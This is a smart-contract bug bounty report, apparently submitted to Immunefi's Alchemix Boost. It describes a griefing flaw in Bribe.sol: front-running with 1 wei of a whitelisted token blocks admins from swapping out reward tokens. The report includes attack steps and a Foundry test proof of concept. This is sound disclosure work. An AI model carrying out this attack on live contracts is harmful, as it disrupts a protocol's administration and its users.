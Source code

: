 
# Griefing attack prevents admins from disabling reward tokens

Submitted on Thu May 09 2024 21:16:13 GMT-0400 (Atlantic Standard Time) by @infosec_us_team for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30985

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Description

The `Voter` smart contract can whitelist - and remove from the whitelist - tokens with the functions:
```
function whitelist(address _token) public {
    require(msg.sender == admin, "not admin");
    require(_token != address(0), "cannot be zero address");
    _whitelist(_token);
}
function removeFromWhitelist(address _token) external {
    require(msg.sender == admin, "not admin");
    _removeFromWhitelist(_token);
}
```

The Voter's whitelist is used in the `Bribe` smart contract to ensure only whitelisted tokens are **enabled** when calling `Bribe.addRewardToken(...)`.

In Bribe, it is impossible to disable a token explicitly; it is only possible for admins to "**disable an already enabled token while replacing it with a new one**" calling `Voter.swapReward(...)`, then the Voter smart contract will call `Bribe.swapOutRewardToken(...)`.

```
/// @inheritdoc IVoter
function swapReward(address gaugeAddress, uint256 tokenIndex, address oldToken, address newToken) external {
    require(msg.sender == admin, "only admin can swap reward tokens");
    IBribe(bribes[gaugeAddress]).swapOutRewardToken(tokenIndex, oldToken, newToken);
}
```
> swapReward in Voter

```
function swapOutRewardToken(uint256 oldTokenIndex, address oldToken, address newToken) external {
    // code here removed for simplicity

    isReward[oldToken] = false;
    isReward[newToken] = true;

    // code here removed for simplicity
}
```
> swapOutRewardToken in Bribe

We discover a griefing attack that makes the `swapOutRewardToken(...)` revert, preventing reward tokens from being disabled.

## Vulnerability Details

The `swapOutRewardToken(...)` function requires the new token that admins are trying to replace the old token with not to exist. (**rewards[newToken]** must be equal to false).
```
function swapOutRewardToken(uint256 oldTokenIndex, address oldToken, address newToken) external {
    require(msg.sender == voter, "Only voter can execute");
    require(IVoter(voter).isWhitelisted(newToken), "New token must be whitelisted");
    require(rewards[oldTokenIndex] == oldToken, "Old token mismatch");

    // Check that the newToken does not already exist in the rewards array
    for (uint256 i = 0; i < rewards.length; i++) {
        require(rewards[i] != newToken, "New token already exists");
    }

    isReward[oldToken] = false;
    isReward[newToken] = true;

    // Since we've now ensured the new token doesn't exist, we can safely update
    rewards[oldTokenIndex] = newToken;

    emit RewardTokenSwapped(oldToken, newToken);
}
```
> Github link: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol#L138-L155

### Attack vector

The logic of the public function `Bribe.notifyRewardAmount(token, amount)`, automatically enables any whitelisted token you pass as a parameter if it is not already enabled so the attack vector is:

**Step 1-** An admin whitelists a token in **Voter** (say **DAI**) to replace the old reward token with it.

**Step 2-** A malicious entity calls `Bribe.notifyRewardAmount(DAI, 1)` sending **1 wei** of day. The **DAI** token will be enabled automatically.

**Step 3-** The admin calls `Voter.swapReward(...)` to disable the old token and enable **DAI**, but his transaction reverts because **DAI** is already enabled.

Hence, the old reward token can't be disabled.

## Impact Details

Griefing attack that prevents admin from disabling a token.

> The 5-reports/48-hours limit makes time management crucial, and every day we invest in attempting to escalate the impact of a specific report decreases the total number of bugs we can submit to the Boost.
>
> We suspect the impact could be increased from griefing to a denial of service in parts of the protocol or the Bribe itself, but we can't afford to allocate time to dig deeper.
        
## Proof of concept
## Proof of Concept

The following test replicates the attack vector.

Add it to `alchemix-v2-dao/src/test/Voting.t.sol`:

```
    function testFrontRunningSwapOutRewardToken() public {

        // Get the bribe address
        address bribeAddress = voter.bribes(address(sushiGauge));

        // Whitelist USDT
        hevm.prank(address(timelockExecutor));
        voter.whitelist(usdt);

        // Add USDT as a reward token
        hevm.prank(address(sushiGauge));
        IBribe(bribeAddress).addRewardToken(usdt);

        // Check that the reward token at index 0 is ACLX and reward token at index 1 is USDT
        assertEq(IBribe(bribeAddress).rewards(0), address(alcx), "reward token should be alcx");
        assertEq(IBribe(bribeAddress).rewards(1), usdt, "reward token should be usdt");

        // Whitelist DAI
        hevm.prank(address(timelockExecutor));
        voter.whitelist(dai);

        // Create attacker address
        address attacker = address(0x99);
        // Give the attacker 1 wei of DAI
        deal(address(dai), attacker, 1);
        // Prank the attacker
        hevm.prank(attacker);
        // Approve the bribe to spend 1 wei of DAI
        IERC20(dai).approve(bribeAddress, 1);
        // Prank the attacker
        hevm.prank(attacker);
        // Sends 1 wei of DAI to the bribe, then adds the DAI token
        // as reward and prevents admins from removing the USDT token as reward
        IBribe(bribeAddress).notifyRewardAmount(dai, 1);
        
        // Admin attempts to swap out USDT for DAI - but his transaction reverts
        // USDT can't be removed from the list of reward tokens
        hevm.expectRevert(abi.encodePacked("New token already exists"));
        hevm.prank(address(voter));
        IBribe(bribeAddress).swapOutRewardToken(1, usdt, dai);

    }
```